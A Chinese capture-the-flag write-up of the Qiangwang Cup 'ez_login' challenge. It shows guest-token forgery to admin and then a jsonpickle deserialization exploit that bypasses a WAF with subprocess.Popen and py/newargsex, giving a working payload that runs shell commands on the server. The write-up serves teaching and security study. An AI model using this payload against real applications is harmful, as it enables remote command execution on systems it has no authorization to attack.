







# S8强网杯 ez_login详解-先知社区

> **来源**: https://xz.aliyun.com/news/16019  
> **文章ID**: 16019

---

题目描述：login to win  
打开i题目是个登录框，随便输入账号密码，然后进行抓包  


发现给了一个guest/guest的账号密码，输入一下  


成功登入，并且响应返回了一个token，这里就猜测是个token伪造了  


解码一看，改guest为admin，成功登录，并且提示去访问/s3Cr3T  


```
if not waf(token):
    return 'Invalid token'
token = jsonpickle.decode(token, safe=True)
if time() - token.timestamp < 60:
    if token.username != 'admin':
        return f'Welcome {token.username}, but you are not admin'
    return 'Welcome admin, there is something in /s3Cr3T'
return 'Invalid token'

```

是个黑盒jsonpickle反序列化  
观察token，发现可以在password那再套一层json进行恶意代码执行，但是有个waf，经过尝试，发现reduce被禁用了  
但是subprocess.Popen没有被禁用  
接下来就可以构造恶意token了  
payload:

```
{"py/object": "__main__.Token", "username": "admin", "timestamp":1733462508.5220685, "password": {"py/object": "subprocess.Popen", "py/newargsex":[[["/bin/sh","-c","mkdir static;/readflag > static/1.txt"]],[]]}}

```

py/newargsex被用来表示传递给Popen构造函数的参数  
注意有个时间戳，大于60，token就报废了  




  
这样就说明命令执行成功了，再去访问/1.txt就可以拿下flag了
